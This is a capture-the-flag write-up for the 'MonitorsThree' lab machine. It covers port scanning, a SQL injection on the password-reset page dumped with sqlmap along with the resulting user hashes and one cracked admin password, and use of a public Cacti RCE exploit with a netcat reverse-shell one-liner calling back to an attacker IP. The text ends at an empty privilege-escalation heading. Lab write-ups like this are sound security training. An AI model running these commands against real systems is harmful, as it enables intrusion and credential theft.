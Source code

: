 ```yaml
---
layout: post
title: "MonitorsThree"
date: 2024-10-04 10:04:00 +0000
categories: Writeup
---
```


MonitorsThree Writeup by <span style="color:yellow">Maniaa</span>.

&nbsp;

# Scan

```text
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.67 seconds
```

&nbsp;
&nbsp;

# SQL Injection

There is SQL injection on the forgot password page here:

![image](https://github.com/user-attachments/assets/a4fae5cc-f532-49bb-8228-d0d3068cd8f1)


Verified with the input '.

It might be blind, which would be somewhat difficult.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![image](https://github.com/user-attachments/assets/406a8e21-219c-4911-a3a6-319dfd25b8ea)


This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8:greencacti2001
```

I then attempted to crack the hashes via hashcat, however only one was successful:

![image](https://github.com/user-attachments/assets/cd1525d1-e676-4067-b633-1e9963aba433)

We now have the credentials for admin@monitorsthree.htb.

&nbsp;
&nbsp;

# Cacti

I found a cacti subdomain:

![image](https://github.com/user-attachments/assets/027392ce-169d-4c77-88b8-8cf7f41c7102)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![image](https://github.com/user-attachments/assets/380380ca-0ca6-44a3-8da8-23b43181b2a3)


Cacti 1.2.26 suffers from rce via import template.

https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26

```
my-venv/bin/python3 CVE-2024-25641.py --user admin --pass greencacti2001 --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/f" http://cacti.monitorsthree.htb/cacti/
```

![image](https://github.com/user-attachments/assets/373304ee-4591-4022-ac3d-dce61361783d)

&nbsp;
&nbsp;

# Privilege Escalation
